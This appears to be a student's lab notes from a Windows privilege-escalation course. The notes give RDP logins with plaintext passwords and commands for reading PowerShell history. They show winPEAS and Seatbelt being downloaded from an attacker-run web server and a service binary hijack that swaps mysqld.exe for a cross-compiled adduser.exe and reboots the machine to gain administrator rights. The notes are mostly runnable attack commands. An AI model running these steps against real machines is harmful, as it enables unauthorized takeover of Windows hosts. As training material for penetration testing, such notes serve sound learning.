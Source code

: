 ### VM 2
```
xfreerdp /u:mac /p:IAmTheGOATSysAdmin! /v:192.168.195.221 /w:1200 /h:700
type C:\Users\mac\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

# Automated enumeration
### VM 1
- install winPEAS and use it for auto enumeration
- note that manual is more reliable as the tool may not find things
```
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server 80
nc 192.168.195.220 4444
```

from powershell download the file we are serving up
`iwr -uri http://192.168.45.194/winPEASx64.exe -Outfile winPEAS.exe`

install seatbelt - https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/seatbelt
```
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/Seatbelt.exe
iwr -uri http://192.168.45.234/Seatbelt.exe.1 -Outfile seatbelt.exe
.\seatbelt.exe -group=all
```

service binary hijacking VM1
```
xfreerdp /u:daveadmin /p:qwertqwertqwert123\!\! /v:192.168.212.220 /w:1200 /h:700

Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

show permissions (owner and F, RX etc)
```
icacls "C:\xampp\apache\bin\httpd.exe"
icacls "C:\xampp\mysql\bin\mysqld.exe"
```

create adduser.c on kali and cross-compile
```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

transfer to windows by serving it up using python server

```
iwr -uri http://192.168.45.181/adduser.exe -Outfile adduser.exe  
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
whoami /priv
shutdown /r /t 0 
Get-LocalGroupMember administrators
```
